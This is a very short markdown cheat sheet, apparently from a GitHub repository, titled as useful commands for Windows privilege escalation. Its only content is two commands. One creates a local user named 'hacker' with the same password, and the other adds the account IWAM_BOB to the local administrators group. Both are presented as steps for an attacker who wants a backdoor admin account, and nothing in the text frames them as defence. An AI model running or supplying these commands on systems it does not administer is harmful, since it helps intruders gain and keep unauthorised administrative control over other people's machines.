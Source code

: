 # Useful Command for Windows Privilage Escalations

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```


